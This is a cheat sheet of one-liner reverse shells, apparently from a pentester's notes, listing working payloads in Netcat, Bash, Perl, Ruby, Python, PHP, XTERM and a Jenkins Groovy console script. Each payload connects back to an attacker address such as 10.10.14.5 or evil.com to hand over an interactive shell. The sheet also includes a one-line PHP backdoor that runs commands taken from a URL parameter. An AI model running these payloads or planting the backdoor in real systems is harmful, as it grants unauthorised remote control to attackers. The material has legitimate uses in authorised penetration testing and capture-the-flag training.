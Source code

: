 ## One-liner reverse shells...
Netcat:
On the listener:

` nc -l -p 8080 -vvv`

On the remote host...

```
nc -e /bin/sh 10.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.103 4444 >/tmp/f &
```

Bash:
```
bash -i >& /dev/tcp/10.0.0.103/4443 0>&1

exec 5<>/dev/tcp/evil.com/8080
cat <&5 | while read line; do $line 2>&5 >&5; done
```
Perl:
```
perl -e 'use Socket;$i="10.10.14.5";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
Ruby:

`ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

Python:

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.227",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

PHP:

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. It it doesn't work, try 4,5, or 6)
```
PHP backdoor :

`<?php passthru($_GET['cmd']); ?>`
XTERM:
```
Server:
xterm -display 10.0.0.1:1
Listener:
Xnest :1
xhost +targetip
```

GROOVY SCRIPT SHELL (JENKINS script console)
```
﻿String host="10.10.14.26";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
